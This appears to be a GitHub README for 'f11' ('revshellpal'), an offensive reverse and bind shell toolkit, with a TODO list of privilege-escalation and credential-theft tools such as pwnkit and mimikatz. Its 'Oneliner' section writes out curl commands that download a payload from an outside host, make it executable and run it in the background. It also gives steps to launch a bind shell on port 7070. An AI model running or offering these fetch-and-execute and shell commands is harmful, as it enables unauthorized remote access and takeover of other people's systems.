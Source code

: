 # f11
*revshellpal*

### TODO

- linpeas (all peas)
  - other similar enum?
- pwnkit
- mimikatz (windows)
- SUID/SUDO/CAP/
- SHELL


### Oneliner

```bash
rm /tmp/f11; curl -sL https://f11snipe.cloud/f11.xz -o /tmp/f11.xz && xz -d /tmp/f11.xz && chmod +x /tmp/f11 && /tmp/f11
rm /tmp/f11*; curl -sL http://localhost:8000/dist/f11.xz -o /tmp/f11.xz && xz -d /tmp/f11.xz && chmod +x /tmp/f11 && /tmp/f11 2>&1 >> /tmp/f11.log &
```


### Run included standalone bind shell

```bash
# Extract archive
xz -d f11-bind.xz

# Allow execute
chmod +x f11-bind

# Run rev bind shell (port 7070)
./f11-bind
```

### Build from source

```bash
# Run all build steps
npm install
npm run ci
```


#### Individual build steps
```bash
# Install npm packages
npm install

# Build TypeScript
npm build

# Compile
npm run compile

# Compress
npm run compress
```
